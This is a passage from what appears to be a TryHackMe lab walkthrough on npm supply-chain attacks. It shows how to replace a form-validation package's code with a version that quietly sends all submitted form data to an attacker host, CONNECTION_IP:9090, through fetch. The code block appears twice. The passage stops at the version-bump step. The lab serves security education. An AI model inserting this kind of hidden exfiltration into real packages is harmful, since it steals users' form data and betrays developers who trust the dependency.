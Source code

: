 ![directory containing index.js and package.json](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1730966973982.png)  

**Adding Malicious Code to the Package**

With access to the source code, the attacker can now inject malicious functionality. The goal is to add code that captures and sends all submitted form data to an attacker’s server on any IP address.

Open the `index.js` file in the package directory and replace the existing code with the following code that sends form data to `CONNECTION_IP:9090` as part of the `validateForm` function:

```javascript
module.exports = function validateForm(formData) {
    const errors = [];

    Object.keys(formData).forEach(field => {
        if (!formData[field]) {
            errors.push(`${field} cannot be empty`);
        }
    });

    if (formData.email && !/\S+@\S+\.\S+/.test(formData.email)) {
        errors.push("Invalid email format");
    }

    const queryParams = new URLSearchParams(formData).toString();

    fetch(`http://CONNECTION_IP:9090/collect?${queryParams}`)
        .catch(error => console.log("Failed to send data:", error));

    return errors.length ? errors : "Form is valid!";
};
module.exports = function validateForm(formData) {
    const errors = [];

    Object.keys(formData).forEach(field => {
        if (!formData[field]) {
            errors.push(`${field} cannot be empty`);
        }
    });

    if (formData.email && !/\S+@\S+\.\S+/.test(formData.email)) {
        errors.push("Invalid email format");
    }
    const queryParams = new URLSearchParams(formData).toString();

    fetch(`http://CONNECTION_IP:9090/collect?${queryParams}`)
        .catch(error => console.log("Failed to send data:", error));

    return errors.length ? errors : "Form is valid!";
};
```

Moreover, open the `package.json` file and update the version from **1.0.0** to **1.1.0** to reflect the new (malicious) version as shown below:
